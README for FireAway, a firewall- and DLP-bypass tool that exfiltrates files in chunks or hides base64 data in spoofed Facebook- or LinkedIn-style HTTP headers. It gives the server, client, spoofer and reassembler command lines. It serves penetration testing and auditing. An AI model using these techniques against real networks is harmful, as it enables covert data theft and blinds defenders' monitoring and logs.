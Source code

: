 FireAway-Next Generation Firewall Bypass Tool
=========
*v0.2*

Fireaway is a tool for auditing, bypassing, and exfiltrating data against layer 7/AppID inspection rules on next generation firewalls, as well as other deep packet inspection defense mechanisms, such as data loss prevention (DLP) and application aware proxies.  These tactics are based on the principle of having to allow connections to establish through the NGFW in order to see layer 7 data to filter, as well as spoofing applications to hide communication channels inside the firewall logs as normal user traffic, such as Internet surfing.  In the case of bypassing data loss prevention tools, Fireaway sends data in small "chunks", which do not match regular expression triggers and other DLP rules, as well as embedding data in spoofed HTTP headers of legitimate applications which most data loss prevention technologies are not designed to inspect.  The tool also has had success defeating anomaly detection and heursitics engines through its ability to spoof application headers and hide data inside them.

 **Starting the FireAway Server:**
Typically the FireAway server would be started on the egress side of the firewall (such as a server on the Internet), and listen on a port believed to be closed to see if any application based rules allow traffic out on this port, or to receive raw data chunks to see if DLP or application proxies can identify them:
 
 ```
python fa_server.py <port to listen on>  <mode number>
```
The server can be started in four modes:
- Test mode (mode 0)-Receive data sent sequentially or randomly generated test data.  The data is written as received and no reassembly is required.

- Sequential chunk reception (mode 1)-Data is being sent to one or more servers in chunk sizes defined by the client sequentially.  Fa_server will record the timestamp the chunk was received in in the output, and use the receive time as the order key during reassembly.  There will also be a "reassembly key" generated by the server to be used with fa_assembler.py.  This is a randomly generated 4 character key used as the delimeter between chunks, with the idea that these characters would not exist in the data chunks being transmitted.

- Random chunk reception (mode 2)-Data is being sent to one or more servers in a random order. This mode is dependent on transmission of a "sequence key" message from the client to a random server in the pool.  When starting each server, the server will prompt to enter a "sequence key identifier".  This should be a pattern not present in the file being transmitted so the server can properly identify data received across a connection as the sequence key.  BE SURE THE SAME SEQUENCE KEY IDENTIFIER IS USED ON ALL SERVERS! The client will randomly select a server to transmit the sequence key to, so it is important all servers can locate the sequence key in their received data.  The sequence key will be recorded by the receiving server in a file called 'SequenceKey.txt'.

- Spoofed app chunk reception (mode 3)-Base 64 encoded data is being sent to one or more servers inside HTTP headers spoofing legitimate applications.  This mode will also generate a "reassembly key" to be used with the fa_assembler script.

All data received by the servers on the specified port will be saved to the file ReceivedData.txt in the directory the server was launched from.  If the server detects differing sizes in the amount of data received (indicating firewall filtering has kicked in), this output will be shown on the server console:

  ```
Got the same or lower amount of data on two consecutive runs.  If sending test data, maximum data leak size may have been reached.
```


**Starting the FireAway Client/Application Spoofer:**
The FireAway client has three modes:
 
 - Test mode (mode 0)-Send random data in incrementing chunk sizes to see how much data can be sent before layer 7 controls engage and stop traffic flow.
 
 - Sequential exfiltration mode (mode 1)-Open a file and send it in chunks of a specified size.  The data will be transmitted sequentially.
 
 - Random exfiltration mode (mode 2)-Open a file and send it in chunks of a specified size, but in a random order. When using this mode, the client will ask for the sequence key identifier.  This is the value specified on the remote servers, and the client will tag the generated sequence key with the identifier, which is transmitted to a random server if a list is provided or to the server IP specified, before the file is transmitted.   

To start the basic client:

  ```
python fa_client.py <FireAway server IP or path of server list file> <Fireaway Server Port> <Client mode>
```
The list of servers should be a simple text file containing a list of IP addresses, one per line. If only using one server, a single IP can be specified instead.  

The application spoofing client has three modes:
- Test mode (mode 0)-Send random test data inside HTTP headers in incrementally larger chunks to determine how much data can be sent before layer 7 controls engage and stop traffic flow.

- Base64 encoded exfiltration mode (mode 1)-Base64 encode an input file and transmit pieces of the encoded file inside randomly generated HTTP headers to bypass DLP and mask the transmission as a legitimate application.  

To start the application spoofing client:
  ```
python fa_spoof.py <FireAway Server IP or path of server list file > <Fireaway Server Port> <Client mode>
```


Application spoofing will randomly insert HTTP headers inside legitmate looking application headers (e.g. Facebook, LinkedIn, etc.) with the data chunks to pollute the logs with various applications in order to mask the data exfiltration.


**Fireaway Reassembler:**
The Fireaway reassembler (fa_assembler.py) is used to reassemble data received by the Fireaway servers.  The assembler has threee modes, which correspond to the mode of the servers which received the data:
- Mode 1-Reassemble data which was received in a sequential order by servers in mode 1.  The assembler will prompt to specify the reassembly key for the file containing the received data for each server, which is the random value the server generated and displayed when started.  This value can also be found by examining the files with the received chunks, and looking at the first four characters.  

- Mode 2-Reassemble data which was received in a random order by servers in mode 2.  The assembler will ask for the path to the sequence key, which was received from the client by a random server during the transmission.  It will also prompt for the reassembly keys for reach file.

- Mode 3-Reassemble base64 encoded data which was received in spoofed application HTTP headers.  This data, like Mode 1, will also ask for the reassembly key.  

To start the reassembler:
  ```
python fa_assembler.py <reassembly mode> <comma separated paths to files to reassemble>
```

Output will be saved to the filename specified.

Please report any isues or questions though Github.  
